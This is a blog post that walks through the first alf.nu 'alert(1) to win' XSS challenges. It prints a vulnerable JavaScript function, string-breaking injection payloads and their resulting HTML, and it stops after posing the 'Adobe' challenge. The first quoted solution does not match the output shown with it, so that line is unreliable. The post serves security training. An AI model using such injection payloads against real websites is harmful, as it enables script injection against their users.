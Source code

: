 ```yaml
---
layout: post
title: escape the XSS (part 1)
categories: [infosec, javascript]
tags: [xss, challenges]
fullview: false
comments: true
---
```


next tuesday i'm giving a workshop regarding owasp 10 ten on the office so i'm preparing myself with a quick recap of certain concepts and vulnerabilities so as a warmup i went over the alert(1) to win challenges on [alf.nu](https://alf.nu/alert1)

# Warmup

to those who aren't familiar with these challenges let us quick briefing:

{% highlight javascript %}
function escape(s) {
  return '<script>console.log("'+s+'");</script>';
}
{% endhighlight %}


this javascript code generates HTML in an unsafe way. the goal is to prove it, scaping the input in order to call `alert(1)`.

this first challenge is quite straightforward since we can just close the quotes:

<br><br><br><br><br><br><br><br>**Solution**:<br><br><br><br><br><br><br><br>

```
";)alert(1, "
```


which will output:

{% highlight javascript %}
<script>console.log("");alert(1,"");</script>
{% endhighlight %}

be aware that are many ways to solve the puzzles:

```
"+alert(1))//
```

also wins.

# Adobe

{% highlight javascript %}
function escape(s) {
  s = s.replace(/"/g, '\\"');
  return '<script>console.log("' + s + '");</script>';
}
{% endhighlight %}
